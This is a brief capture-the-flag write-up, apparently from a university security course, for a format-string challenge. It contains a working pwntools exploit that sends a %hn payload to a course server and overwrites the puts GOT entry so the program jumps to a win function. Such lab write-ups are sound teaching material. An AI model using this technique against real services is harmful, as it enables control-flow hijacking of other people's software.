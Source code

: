 # Challenge `Calling Functions Again` writeup

- Vulnerability:
  - Format string
- Where: Where is the vulnerability present
  - `mustard.stt.rnl.tecnico.ulisboa.pt` on port 23197
- Impact:
  - Allows attacker to call arbitrary functions

## Steps to reproduce

1. Using `elf` we can obtain the `puts` and `win` address
2. We need to write the address of `win` in `puts`
3. Since we can only write 2 bytes at once, we need to split the address

The code used was the following:

```py
from pwn import *

s = remote("mustard.stt.rnl.tecnico.ulisboa.pt", 23197, timeout=100)

elf = ELF("07_call_functions")
win_function = elf.symbols['win']
puts_got = elf.got['puts']

payload = p32(puts_got) + p32(puts_got + 2) + "%{}x%7$hn".format((win_function & 0xffff) - 8).encode()

s.sendline(payload)
print(s.recvall())
```